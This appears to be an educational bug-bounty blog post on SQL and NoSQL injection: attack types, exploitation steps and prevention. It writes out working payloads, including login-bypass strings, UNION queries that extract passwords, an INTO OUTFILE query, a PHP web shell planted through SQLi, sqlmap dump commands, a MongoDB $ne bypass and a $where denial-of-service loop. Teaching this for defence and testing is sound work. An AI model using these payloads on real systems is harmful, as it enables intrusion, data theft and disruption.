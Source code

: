 # Bug Bounty Hunting: Web Vulnerability (SQL injection)
Author: Rosemary

SQL Injection (SQLi) is a critical web security vulnerability that allows attackers to manipulate SQL queries and gain unauthorized access to databases. This attack can lead to data breaches, unauthorized data modification, and even server compromise. In this blog, I will cover SQL Injection, its various forms, attack techniques, and strategies to prevent such exploits.

![1](https://www.indusface.com/wp-content/uploads/2024/04/sub-internal-How-does-SQL-Injection-Work-1.png)

### How SQL Queries Work: SQL queries follow a specific lifecycle when executed on a database:

    Parsing — The SQL server interprets the query syntax.
    Compilation — The query is translated into an executable format.
    Optimization — The server determines the way to execute the query.
    Execution — The query runs and retrieves data.

If user input is concatenated into the query before compilation, the database may interpret it as executable code rather than data. This is where SQL Injection becomes a serious threat.

---

### Types of SQL Injection

1. In-band SQL Injection: The most common type, where attackers use the same communication channel for injection and data retrieval.

    Error-Based: Manipulates queries to generate error messages revealing database details.Example: SELECT * FROM users WHERE id = 1 AND 1=CONVERT(int, (SELECT @@version))
    Union-Based: Uses the UNION operator to merge results from different tables.Example: SELECT name, email FROM users WHERE id = 1 UNION ALL SELECT username, password FROM admin

2. Inferential (Blind) SQL Injection: Exploits vulnerabilities by analyzing responses rather than retrieving direct data.

    Boolean-Based: Uses conditions to infer data by observing page behavior.Example: SELECT * FROM users WHERE id = 1 AND 1=1 (true) vs. AND 1=2 (false)
    Time-Based: Forces the database to delay responses to infer true/false conditions.Example: SELECT * FROM users WHERE id = 1; IF (1=1) WAITFOR DELAY '00:00:05'--

3. Out-of-band SQL Injection: Used when in-band methods fail, relying on external server requests (e.g., HTTP, DNS) to exfiltrate data.

---

### Each technique has trade-offs:

    In-band: Easy to exploit but noisy.
    Blind: Harder to detect but effective when error messages are hidden.
    Out-of-band: Less common but powerful when external communication is possible.

---

### SQL Injection Attack Techniques:

Step 1: Identify SQL Injection Vulnerability

Attackers start by identifying input fields vulnerable to SQL Injection. Common test payloads include:

' OR 1=1 --
" OR "1"="1"
admin' --

These payloads attempt to bypass authentication by altering the WHERE clause to always return true.
Step 2: Exploit the SQL Injection

Once a vulnerability is confirmed, attackers use SQL injection to extract database information. Example queries:

UNION SELECT null, @@version --
UNION SELECT username, password FROM users --

This technique allows an attacker to retrieve sensitive information such as usernames and passwords.
Step 3: Exfiltrate Information Using SQL Injections

In some cases, the attacker may need to store the extracted information on the server for retrieval. This can be done using the SELECT...INTO OUTFILE command in MySQL:

SELECT Password FROM Users WHERE Username='admin' INTO OUTFILE '/var/www/html/output.txt';

The attacker can then access the file via a web request:

https://example.com/output.txt

Step 4: Look for NoSQL Injections

NoSQL databases such as MongoDB are also vulnerable to injection attacks. For example, if an application constructs queries unsafely:

Users.find({username: $username, password: $password});

An attacker can bypass authentication by supplying:

{ "username": "admin", "password": { "$ne": "" } }

This query matches any non-empty password, granting unauthorized access.

Additionally, attackers can execute arbitrary JavaScript code by injecting into MongoDB’s $where operator:

Users.find({ $where: function() { return this.username == 'admin'; while(true){}; } });

This creates an infinite loop, causing a Denial of Service (DoS) attack.
Escalating the Attack

---

### Beyond extracting information, attackers may attempt to escalate their access:

    Determine Database Type & Version: SELECT 1, @@version;
    Extract Table and Column Names: UNION SELECT 1, table_name FROM information_schema.tables; UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = 'Users';
    Gain a Web Shell: An attacker may upload a web shell using SQLi:
    SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'; This allows them to execute commands remotely:http://example.com/shell.php?cmd=whoami
    Automating SQL Injection Attacks: Manually testing for SQLi is tedious, so attackers use tools like sqlmap to automate discovery and exploitation:

sqlmap -u "http://example.com/index.php?id=1" --dbs
sqlmap -u "http://example.com/index.php?id=1" --dump-all

---

### Other tools include:

    NoSQLMap (for NoSQL injections)
    Burp Suite (for manual and automated security testing)

---

### Preventing SQL Injection

    Parameterized queries separate SQL logic from user input, preventing injection:$stmt = $mysqli->prepare("SELECT Id FROM Users WHERE Username=? AND Password=?"); $stmt->bind_param("ss", $username, $password); $stmt->execute();
    Restrict user input to predefined values:
    $allowed_columns = ["Date", "Sender", "Title"]; if (!in_array($_GET['column'], $allowed_columns)) die("Invalid column");
    Escape special characters but always use with prepared statements:$username = mysqli_real_escape_string($conn, $_POST['username']);
    WAFs detect and block SQL Injection attempts.
    Limit database account permissions — avoid using root/admin.
    Conduct penetration testing, code reviews, and use tools like SQLmap.

---

### Conclusion

SQL Injection remains one of the most dangerous vulnerabilities in web applications. Attackers can exploit poorly constructed SQL queries to extract sensitive information, manipulate data, or even gain full control of a system. However, by implementing prepared statements, input validation, and other best practices, developers can effectively mitigate SQL Injection risks and build more secure applications.